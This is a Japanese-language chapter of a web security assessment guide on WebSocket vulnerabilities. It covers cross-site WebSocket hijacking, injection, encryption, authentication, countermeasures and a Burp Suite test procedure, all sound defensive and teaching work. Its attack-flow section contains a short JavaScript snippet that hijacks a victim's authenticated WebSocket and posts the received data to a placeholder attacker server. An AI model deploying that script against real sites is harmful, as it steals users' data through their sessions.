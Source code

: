 # WebSocket

## 概要
WebSocketは、クライアントとサーバー間で双方向通信を可能にする通信プロトコルです。HTTPとは異なり、WebSocketでは接続が確立された後、クライアントとサーバー間で自由にデータを送受信することが可能です。そのような特性から、リアルタイム性の高い機能を実装する際に広く利用されています。この章ではWebSocketに関する一般的な脆弱性や攻撃手法を例に挙げ、診断手法および対策を記載します。

## 診断観点
### Cross-site WebSocket hijacking (CSWSH)
Cross-site WebSocket hijacking (CSWSH)とは、攻撃者がユーザーのWebSocket接続を不正に利用する攻撃手法です。WebSocket接続における正当性の検証がCSRFトークンや同等のセキュリティ対策が行われず、セッションCookieのみに依存する場合に発生する可能性があります。また、WebSocket通信ではSame-Origin Policy（SOP）が適用されないため、サーバーがOriginヘッダーを適切に検証しない場合、異なるオリジンからの不正な接続を許可してしまうことも原因の一つです。

#### 攻撃の流れ
1. 攻撃者は悪意のあるWebページを用意<br>
攻撃者は、以下のようなWebSocket接続を試みるスクリプトを含む悪意のあるWebページを作成します。
    ```
    // ターゲットへのWebSocket接続を確立
    const ws = new WebSocket('wss://[target-server]/socket');
    ws.onopen = function() {
        ws.send('payload'); // ペイロードを送信
    };
    ws.onmessage = function(event) {
        // データを攻撃者のサーバに送信
        fetch('https://[attacker-serer]/log', { 
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
    ```

2. 被害者が攻撃者のページにアクセス<br>
ユーザーが攻撃者のWebページを開くと、スクリプトが実行され、ユーザーのセッションを使ってターゲットのWebSocketエンドポイントへの接続を確立します。このとき、被害者がターゲットへの認証済みであることを前提とします。

3. 不正な操作が実行される<br>
WebSocket通信が確立されると、攻撃者のスクリプトによってWebSocketを経由した不正なデータの送受信が可能になります。

### 入力検証不備とメッセージインジェクション
HTTPと同様にWebSocket通信においても入力データの検証が不十分な場合、インジェクション攻撃のリスクがあります。攻撃者はWebSocketメッセージに悪意あるペイロードを含めることで、サーバや他のクライアントに対してSQLインジェクション、XSS、コードインジェクションなどを引き起こす可能性があります。さらに、WebSocketは常時接続の双方向通信かつリアルタイム性を持つプロトコルであるため、攻撃が非常に短時間で展開されやすいという特徴があります。
WebSocketを利用するアプリケーションでは、入力データをサーバー側で厳密に検証し、適切な処理を行っているか確認する必要があります。

### 暗号化
WebSocket通信は、接続開始時のWebSocketハンドシェイクにおいてはHTTPが使われますが、接続確立後、TCPベースの双方向通信に切り替わります。HTTPと同様に暗号化されていない通信（`ws://`）とSSL/TLSによる暗号化通信（`wss://`）が用意されています。
暗号化されていない`ws://`接続では、通信内容が平文で送受信されるため、中間者攻撃（MITM）によって攻撃者に通信内容を盗聴される恐れがあります。

### 認証・セッション管理の欠如
WebSocketプロトコル自体には独自の認証・認可の仕組みがありません。そのため認証やセッション管理はアプリケーション側で適切に設計する必要があります。実装が不十分な場合、通常はログイン後にしか利用できないWebSocketエンドポイントに対し、未認証の状態でもWebSocket機能へアクセスできる恐れがあります。他にも、セッション確立後にログアウトしてもWebSocket接続が生き続ける場合もセッション管理上の問題となります。

## 事例紹介
- https://nvd.nist.gov/vuln/detail/CVE-2024-26135
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-1403
- https://jvn.jp/jp/JVN50850706/


## 対策
- Originヘッダの検証
    -  WebSocket通信でのSOPはブラウザの`Origin`ヘッダー送信に依存しているため、サーバー側でその値を検証することが重要です。
    -  ただし、任意の変更が可能であるため、完全に信頼せず、他の対策と併用する必要があります。
- CSRFトークンによる正当性確認
    - セッションCookieに基づく認証だけでは、攻撃者が正規ユーザーのセッションを悪用し、不正なWebSocket接続を確立できる場合があります。そのため、通信に推測不可能なランダムな値を付与して検証し、正当な通信であるか判定する必要があります。
- WSSの使用
    - 常にセキュアなWebSocket (`wss://`) を使用し、通信をTLSで暗号化します。サーバー側で有効な証明書を設定してHTTPS上でWebSocketを提供し、クライアントにも`wss://`で接続させるようにします。またサーバー側の実装においても、TLS接続でないWebSocketのハンドシェイクリクエストは拒否することが望ましいです。
- 認証・認可
  - WebSocketは接続確立後に認証ヘッダーを送れないため、接続時点での認証が重要です。セッションCookieだけに依存せずトークン（例：JWT）やチケットを用いた認証方式を採用することで、接続ごとの正当性をより厳密に検証できます。認証が通った後も、各メッセージの処理時にユーザーの権限（認可）を確認することが不可欠です。

## 診断方法
ここでは、BurpSuiteを用いたCSWSHの診断手法の一例をご紹介します。
WebSocket接続のハンドシェイクを改ざんし、サーバ側の検証が適切に行われているか確認します。

1. Websocket接続の確立<br>
WebSocket通信が発生する対象画面にアクセスし、`Proxy`→`HTTP history`を確認します。該当するハンドシェイクリクエストを確認し、ステータスコードが101（Switching Protocol）となっていることを確認してください。

2. WebSocketメッセージ<br>
`Proxy` → `WebSockets history`タブで通信内容を確認し、クライアントからサーバに対するメッセージを選択し`Repeater`に送ります。

3. 接続試行<br>
Repeater画面で編集アイコンをクリックするとBurpが記録したWebSocket接続が一覧表示されます。この中から対象のWebSocket接続を選択し、`Clone`を実行します。
`Clone`を行うと、既に確立されたWebSocket接続のハンドシェイクが編集可能な状態で複製され、ウインドウに表示されます。ヘッダ等を任意に変更したうえで`Connect`をクリックすると、その内容でWebSocket接続を再試行できます。
![image1](./websocket_image1.png)

このとき、例として以下の様なテストを実施できます。
- `Origin`ヘッダの改ざん
- CSRFトークンや対策に使用しているヘッダ等の有無、妥当性の検証
- `X-Forwarded-For`ヘッダの追加によるIPアドレス偽装

アプリケーションロジックやWebSocketの認証・認可処理の実装に応じてテストを行い、サーバがセッション情報（Cookie等）のみを根拠にWebSocket接続を許可していないか、またはオリジン検証が適切かを確認してください。
サーバ側で適切な対策がされていない場合、ハンドシェイクが成功し、WebSocket接続が確立します。そのままメッセージの送受信が可能であれば、CSWSHのリスクが高いと判断できます。

## 参考
- https://portswigger.net/web-security/websockets
- https://portswigger.net/burp/documentation/desktop/testing-workflow/websockets/manipulating-websocket-handshakes
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://github.com/snyk/socketsleuth
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://book.hacktricks.xyz/v/jp/pentesting-web/websocket-attacks
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://appcheck-ng.com/cross-site-hijacking/
- https://devcenter.heroku.com/ja/articles/websocket-security
